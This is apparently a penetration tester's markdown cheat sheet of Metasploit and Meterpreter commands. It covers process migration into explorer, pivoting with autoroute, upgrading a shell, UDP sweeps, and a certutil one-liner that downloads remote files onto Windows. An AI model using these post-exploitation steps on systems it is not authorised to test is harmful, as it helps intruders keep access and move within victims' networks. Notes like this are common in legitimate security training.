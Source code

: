 # Metasploit start
```
Start the postgresql service before using metasploit
service postgresql start
```

# X86 Meterpreter session
```
If in sysinfo meterpreter command output, show a x86 meterpreter, migrate to x64 proccess if the system is x64
> pgrep explorer 
> migrate PID
```

# HTTP server
```
python -m SimpleHTTPServer 80
```

# CMD file download
```
certutil -urlcache -f URL/FILE DESTINATION_FILE
```

# Upgrade shell to meterpreter
```
sessions -u SESSION_NUMBER
```

# Pivoting MSF
```
In meterpreter

run autoroute -s IP (IP of the network to pivot)
```

# UDP scan MSF
```
auxiliary/scanner/discovery/udp_sweep
```

# Info about MSF modules
```
info -> gives info about the active module, useful for looking to the affected versions of a service by the active exploit
```